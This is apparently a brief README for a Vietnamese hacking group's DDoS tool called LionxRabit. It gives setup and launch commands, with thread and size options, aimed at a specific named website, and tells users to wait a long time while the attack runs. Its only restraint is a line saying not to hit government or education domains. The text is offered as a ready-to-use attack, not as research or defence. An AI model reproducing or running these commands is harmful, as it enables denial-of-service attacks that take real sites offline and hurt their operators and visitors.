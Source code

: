 # @2022 Rabit Team X LionTeam Hacking VN DDoS

KHONG DDOS CHINHPHU.VN (GOV,EDU)

python setup.py

python3 LionxRabit -s 100 -t 5 https://nhatquyenit.net/

Hoặc

python LionxRabit.py https://nhatquyenit.net/

ĐỢI KHÁ LÂU 
